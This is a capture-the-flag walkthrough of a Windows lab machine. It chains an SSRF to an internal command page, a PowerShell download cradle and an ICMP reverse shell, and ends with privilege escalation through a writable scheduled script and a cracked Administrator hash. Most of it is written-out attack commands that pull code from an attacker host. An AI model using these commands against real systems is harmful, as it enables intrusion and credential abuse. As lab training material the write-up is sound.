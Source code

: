 Port 62696 (http)

Check the HTTP service, which is a website, with WhatWeb:

```
whatweb http://10.10.10.57:62696
```

WhatWeb returns "Microsoft-IIS 8.5" and "X-Powered-By: ASP.NET."

Since it's ASP.NET, you can fuzz for files with extensions like asp or aspx using Gobuster:

```
gobuster dir -u http://10.10.10.57:62696/ -w /directory --add-slas -x asp,aspx
```

This found the file "test.asp." When checking this file on the website, it displays a message: "Missing parameter Url [u] in GET request." So, you add the parameter to the URL and try making a GET request to the victim machine's localhost to attempt an SSRF and internal port discovery:

```
http://10.10.10.57:62696/test.asp?u=http://127.0.0.1
```

The machine has port 80 internally open, so you can try enumerating ports using wfuzz:

```
wfuzz -c --hw=89 -t 200 -z range,1-65535  http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:FUZZ
```

The website on localhost has port 80 open and is an "site administration" application with various options, including "system commands":

```
http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx
```

This leads you to an application where you can enter commands. You attempt to gain access through a reverse shell, for which you need to serve the "invoke-powershelltcp" script from the GitHub repository nishang through a local server on your machine. Here's how:

```bash
# On your machine
# Add this to the end of the script
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 1234
python -m http.server 80
nc -nlvp 1234

# On the victim's web
http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx?xcmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/Invoke-PowerShellTcp.ps1')
```

This didn't work, so there might be firewall rules on the victim machine preventing the connection.

You then try to execute the reverse shell over ICMP using the nishang script "Invoke-PowerShellIcmp.ps1":

```bash
# On your machine
sysctl -w net.ipv4.icmp_echo_ignore_all=1
rlwrap icmpsh_m.py 10.10.14.29 10.10.10.57

# Add this to the end of the script
Invoke-PowerShellIcmp -IPAddress 10.10.14.4

# Remove line breaks from the script
cat Invoke-PowerShellIcmp.ps1 | sed '/^\s*$/d' | sponge Invoke-PowerShellIcmp.ps1

# Convert the script to base64 with iconv to upload it to the victim machine
cat Invoke-PowerShellIcmp.ps1 | iconv -t utf-16le | base64 -w 0 > Invoke-PowerShellIcmp.ps1.b64
fold Invoke-PowerShellIcmp.ps1.b64 | sponge Invoke-PowerShellIcmp.ps1.b64

# Upload the script line by line to the victim machine; you can automate this with a bash script
#!/bin/bash

counter=0
for line in $(cat icmp.ps1.b64); do
    echo -ne "[+] Total lines sent [$counter/87]\r"

    curl -s "http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx?xcmd=echo%20$line%20>>%20C:\Temp\prueba2.ps1"

    let counter+=1
done

# On the victim's web
http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx?xcmd=powershell $filecontent = Get-Content C:\Temp\prueba2.ps1; $decode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($filecontent)); $decode > C:\Temp\pwn.ps1

# Execute the reverse shell
http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx?xcmd=powershell C:\Temp\pwn.ps1
```

This way, you gained access to the machine.

Privilege Escalation

In the root directory, there's the "sysadmscripts" directory, containing a PowerShell script and a .bat file.

The .bat file executes the PowerShell script at intervals on the system. Checking the permissions on the PowerShell script, you see that as the current user, you have privileges over this script and can modify it:

```
cacls c.ps1
```

You can take advantage of this to copy files owned by the user who controls the .bat file:

```
echo "copy C:\Users\decoder.MINION\Desktop\* C:\Temp" > C:\sysadmscripts\c.ps1
```

Among the copied files, you know there's the "backup.zip" file. You can try to view the alternative data stream:

```
cmd /c dir /r /s C:\Temp\
# This found hidden information; to view it:
type C:\Temp\backup.zip:pass
```

The content is an NTLM hash, which when cracked gives you a password "1234test" belonging to the Administrator user. Externally, the WinRM service is not active, so you can't connect to the machine through it, but you can execute commands as Administrator using PowerShell:

```
$user = 'minion\Administrator'; $password = '1234test'; $secPw = ConvertTo-SecureString $password -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential $user,$secPw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { dir }
```

Taking advantage of this, you can change the firewall rules on the victim machine to gain conventional access:

```
$user = 'minion\Administrator'; $password = '1234test'; $secPw = ConvertTo-SecureString $password -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential $user,$secPw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { New-NetFirewallRule -DisplayName kevin -RemoteAddress 10.10.14.4 -Direction inbound -Action allow }
```

Now you can perform a scan from your attacker machine and have access to the victim machine's ports and gain access through the WinRM service.

Root flag: 25afc18b756db150854

28015928a1cf1
User flag: 40b949f92b86b19a77986af9faf91601